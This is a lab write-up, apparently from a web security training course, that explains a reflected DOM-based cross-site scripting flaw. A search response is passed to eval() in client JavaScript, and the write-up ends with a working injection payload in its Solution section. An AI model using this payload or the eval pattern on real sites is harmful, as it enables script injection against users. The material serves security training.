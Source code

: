 # Lab: Reflected DOM XSS
## Description

First, running the search and looking in Burp Proxy logs, I noticed that two requests were made:

A request to `/?search=asdasd` would trigger a second HTTP request to `/search-results?search=asdasd` which would return the search results to the client. The response would look something like this:

```json
{ "results": [], "searchTerm": "asdasd" }
```
Notice the search query (`searchTerm`) is also returned in the response.

Next, the client-side code contained some JavaScript located in `/resources/js/searchResults.js` which would parse the search results:

```js
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)

	[..SNIPPET..]
```

The JSON response from the search would then be sent to a vulnerable sink.
```js
eval('var searchResultsObj = ' + this.responseText);
```

All he have to do now, would be to break out of the json object function and inject our own JS into the `eval()` function. We can do that by unescaping the double-quote sign like this `asdasd\"};//` and uncommenting everything after using `//`. This would convert the json response to:

```json
{ "results": [], "searchTerm": "asdasd\\"};//}
```

Now, we just need to add `alert()` to the payload our alert...


## Solution

`asdasd\"};alert('XSS');//`
